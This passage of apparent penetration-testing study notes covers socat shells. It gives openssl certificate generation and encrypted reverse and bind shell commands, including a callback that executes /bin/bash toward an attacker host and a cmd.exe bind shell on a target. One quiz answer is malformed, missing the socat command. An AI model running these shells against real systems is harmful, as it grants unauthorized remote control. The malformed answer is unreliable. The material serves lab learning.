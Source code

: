     # sane, stabilises the terminal, attempting to "normalise" it.
    ```

**Note!** If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
{: .notice--info}

#### How would we get socat to listen on TCP port 8080?
```bash
# socat TCP-L:<port> -

$ TCP-L:8080
```

## Socat Encrypted Shells
- Reverse Shells
    - Generate a certificate in order to use encrypted shells.
        ```bash
        $ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

        # This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
        ```
    - Merge the two created files into a single .pem file.
    ```bash
    $ cat shell.key shell.crt > shell.pem
    ```
    - Set up rever shell listener.
        ```bash
        $ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

        # verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.
        ``` 
    - Connect back.
    ```bash
    $ socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
    ```

- Bind Shells
    - Target.
    ```bash
    $ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
    ```
    - Attacker
    ```bash
    $ socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
    ```
